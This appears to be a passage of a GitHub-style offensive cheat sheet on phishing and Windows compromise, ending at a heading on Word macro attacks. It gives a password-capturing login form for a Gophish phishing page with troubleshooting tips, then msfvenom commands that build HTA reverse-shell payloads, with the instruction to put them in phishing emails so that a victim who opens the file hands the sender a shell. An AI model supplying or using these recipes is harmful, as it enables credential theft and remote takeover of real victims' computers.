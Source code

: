 ```
<form action="" method="POST">
    <input name="username" type="text" placeholder="username" />
    <input name="password" type="password" placeholder="password" />
    <input type="submit" value="Submit" />
</form>

```
#### There are a few things to note about this form:

* The action is "" so that form submissions are directed to your phishing page and, therefore, to your Gophish server
* The form submission method is POST 
* Each input which you expect to see in Gophish has a name attribute

Each of these should be checked when troubleshooting HTML forms that don't appear to be sending data correctly.
If you still aren't seeing your form submitted correctly, you may need to review and remove any Javascript on the page interfering with the form submission.
Finally, ensure that when saving the landing page that you have both the "Capture Submitted Data" and "Capture Passwords" (if appropriate) options checked. Otherwise, Gophish will remove the name attributes from your inputs so they aren't submitted with the form. 

### Q2  How i setup Phishing Campaing ? ¯\_(ツ)_/¯ 

You can read this article to get more information about how to set up a phishing campaign!
```
https://www.hackercoolmagazine.com/gophish-setup-a-phishing-campaign/
```
# 
#
# How to Compromise Windows 🦋 system

***You can add this payload to your phishing email. When the victim installs & open this malicious file, you'll get your shell 🐚***

## HTA Attack in Action

We will use msfvenom to turn our basic HTML Application into an attack, relying on the hta-psh output format to create an HTA payload based on PowerShell. 
In Listing 11, the complete reverse shell payload is generated and saved into the file evil.hta.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<your tun0 IP> LPORT=<your nc port> -f hta-psh -o ~/evil.hta
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your tun0 IP> LPORT=<your nc port> -f hta-psh -o ~/evil64.hta
```
## Exploiting Microsoft Windows using MS Word Macro [ Manually ] 🐓
The Microsoft Word macro may be one the oldest and best-known client-side software attack vectors.
